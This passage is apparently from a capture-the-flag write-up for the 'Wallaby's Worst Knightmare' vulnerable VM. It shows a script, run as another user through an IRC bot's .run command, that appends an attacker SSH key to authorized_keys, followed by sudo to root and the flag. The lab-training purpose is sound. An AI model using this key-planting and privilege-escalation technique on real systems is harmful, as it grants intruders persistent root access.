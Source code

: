 Maybe we can create a shell script in a location Waldo can access, make it 777 and then run it as wallaby with the single arg bot invocation of .run as waldo?
In the morning,"Matato" lit up our chat after he ran with the idea to create a script and run it as the single arg to .run so that waldo can execute code as wallaby.

Here's my script. "Matato", independently did the nearly the exact same thing; he beat me in the keyboard race. :)

waldo@ubuntu:~$ cat test
#!/bin/bash
sudo -l
mkdir /home/wallaby/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2NNNICETRYMORTY9a42+m7rFv root@kali" >> /home/wallaby/.ssh/authorized_keys
chmod 600 /home/wallaby/.ssh/authorized_keys
I thought we might need to put this in a neutral place like /var/www/html or something, but because the permissions on home are 755 instead of 700, we can just run this from waldo's home!

22:03 < waldo> .run /home/waldo/test
22:03 < wallabysbot> b'Matching Defaults entries for wallaby on ubuntu:     env_reset, mail_badpass,
                     secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin  User wallaby may run the following commands on ubuntu:
                     (ALL) NOPASSWD: ALL '
This appended our key do wallaby's home, so now we just ssh as wallaby and sudo su -!

Flag
root@kali:~# ssh wallaby@wallaby
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri May  3 12:43:17 2019 from 192.168.167.130
wallaby@ubuntu:~$ sudo su -
root@ubuntu:~# ls -l
total 12
drwxr-xr-x 2 root root 4096 Dec 27  2016 backups
-rwxr-xr-x 1 root root  510 Dec 27  2016 check_level.sh
-rw-r--r-- 1 root root  342 Dec 16  2016 flag.txt
root@ubuntu:~# cat flag.txt
###CONGRATULATIONS###

You beat part 1 of 2 in the "Wallaby's Worst Knightmare" series of vms!!!!

This was my first vulnerable machine/CTF ever!  I hope you guys enjoyed playing it as much as I enjoyed making it!

Come to IRC and contact me if you find any errors or interesting ways to root, I'd love to hear about it.

Thanks guys!
-Waldo
root@ubuntu:~#
Recap
This box is exploitable through a series of flaws, some big, some small.
